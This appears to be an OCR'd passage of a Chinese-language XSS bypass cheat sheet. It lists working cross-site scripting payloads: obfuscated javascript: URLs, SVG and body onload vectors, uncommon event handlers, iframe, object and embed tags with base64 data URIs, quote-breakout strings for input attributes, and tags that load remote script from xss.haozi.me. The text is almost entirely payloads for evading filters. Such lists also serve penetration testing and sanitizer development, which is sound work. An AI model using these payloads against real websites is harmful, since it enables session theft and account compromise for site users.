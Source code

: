```
<svg/onload=location='javascript:alert(7)'>
<svg/onload=location='jav'+'ascr'+'ipt:al'+'ert(7)'>
<svg/onload=location='j\x61v\u0061scrip\x74:alert`7`'>
<svg/onload=loc\u0061tion='jav'+'ascr'+'ipt:al'+'ert(7)'>
<svg/onload=loc&#x0000000000000061tion='jav'+'ascr'+'ipt:al'+'ert(7)'>
```

### 允许构造标签时的绕过

#### 敏感标签被过滤
onload, onerror, onfocus全部被过滤时，可以尝试：

```
<svg/onload=alert(7)>
<body/onload=alert(7)>
<img onerror=alert(7) src>
<video onerror=alert(7) src>
<audio onerror=alert(7) src>
<video><source onerror="javascript:alert(7)">
<input onfocus=alert(7) autofocus>
<select onfocus=alert(7) autofocus>  <!-- 测试仅火狐成功弹窗 -->
<keygen onfocus=alert(7) autofocus>  <!-- 测试仅火狐成功弹窗(被解析成select标签) -->
<textarea onfocus=alert(7) autofocus>  <!-- 测试仅火狐成功弹窗 -->
<marquee onstart=alert(7)>  <!-- 测试仅火狐成功弹窗 -->
```


#### 使用不常见的on事件
```
<body onpageshow=alert(7)>
<details ontoggle=alert(7) open>
<marquee onstart=alert(7)>  <!-- 测试仅火狐成功弹窗 -->
<body onscroll=alert(1)><br><br><br><br><br><br><br><br><br><input autofocus>  <!-- 测试仅google成功弹窗 -->
```

#### on事件全部被过滤时
```
<script src="https://xss.haozi.me/j.js"></script>
<iframe src=javascript:alert(7)>
<object data=javascript:alert(7)>  <!-- 测试仅火狐成功弹窗 -->
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCg3KTwvc2NyaXB0Pg">
<embed src="data:text/html;base64,PHNjcmlwdD5hbGVydCg3KTwvc2NyaXB0Pg">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCg3KTwvc2NyaXB0Pg">
<object data="https://xss.haozi.me/j.js">
```

### 无法构造标签时

大多数时候, 尖括号会被过滤, 我们无法构造标签...但却能通过引号闭合某些标签中的属性值, 从而构造on事件属性, 实现XSS。

#### `<input>`标签内
正常能控制的是type属性
```
" onfocus=alert(7) autofocus x="
" onmouseover=alert(7) x="
" onmousemove=alert(7) x="
```
